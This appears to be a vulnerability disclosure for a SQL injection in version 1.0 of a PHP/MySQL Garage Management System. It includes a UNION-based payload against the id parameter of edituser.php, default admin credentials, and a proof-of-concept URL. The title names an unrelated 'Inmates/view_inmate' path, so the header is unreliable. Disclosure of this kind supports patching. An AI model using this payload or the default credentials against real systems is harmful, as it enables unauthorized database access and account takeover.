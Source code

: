 # Garage Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Garage Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15485&title=Garage+Management+System+using+PHP%2FMySQL+Free+Source+Code
#### Version: Garage Management System  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Garage Management System does not filter the content correctly at the "/edituser.php" id parameter, resulting in the generation of SQL injection.

#### Payload used:
```
/edituser.php?id=-2'%20UNION%20select%2011,user(),333,444--+
```



#### Proof of Concept

1. Login the CMS. 
   Admin Default Access:
     username:admin
     Password: admin123

   

2. Open Page `http://192.168.67.9/edituser.php?id=-2'%20UNION%20select%2011,user(),333,444--+`，

   ![image-20220729165703920](img/image-20220729165703920.png)

   

   



